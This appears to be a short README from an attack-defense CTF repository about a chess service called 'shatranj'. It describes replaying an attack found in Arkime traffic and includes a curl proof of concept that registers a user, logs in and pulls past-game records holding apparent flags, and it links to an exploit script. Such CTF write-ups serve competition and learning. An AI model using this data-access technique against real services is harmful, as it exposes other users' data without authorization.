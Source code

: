 # shatranj

This is wildly incomplete. Just dropping it here for future reference. Nothing particularly novel, just reversed a successful attack against our service by looking through the traffic in [arkime](https://github.com/arkime/arkime) and then automated that technique to use it against other teams.

## Review successful exploits in Arkime

![](Screenshot_2021-07-10_14-07-10.png)

![](Screenshot_2021-07-10_14-07-22.png)

## POC w/ curl

```
root@team96:# export TARGET=localhost

root@team96:# curl -X POST -H "Content-Type: application/json" -d '{"username":"s2MhZ4ns9WsUSQ","password":"foobar123456"}' http://$TARGET:8080/api/register
{"message":"Successfully registered User s2MhZ4ns9WsUSQ."}

root@team96:# curl -c /tmp/cookies -X GET -H "Authorization: Basic czJNaFo0bnM5V3NVU1E6Zm9vYmFyMTIzNDU2" http://$TARGET:8080/api/login
{"message":"Success!"}

root@team96:# curl -c /tmp/cookies -X GET -H "Authorization: Basic czJNaFo0bnM5V3NVU1E6Zm9vYmFyMTIzNDU2" http://$TARGET:8080/api/pastgames
[{"id":25810,"active":false,"boardState":"rnbqkbnr/pppppppp/8/8/8/8/8/4K3 w kq - 0 1","winner":null,"name":"ENOBwAAAAEAAABgAAAApwAAAJsBOGPFr0MqL6QoxRefxQPCwV5l","createdAt":"2021-07-10T15:46:27.553+00:00"}]
```

## Solution

[exploit.py](exploit.py)

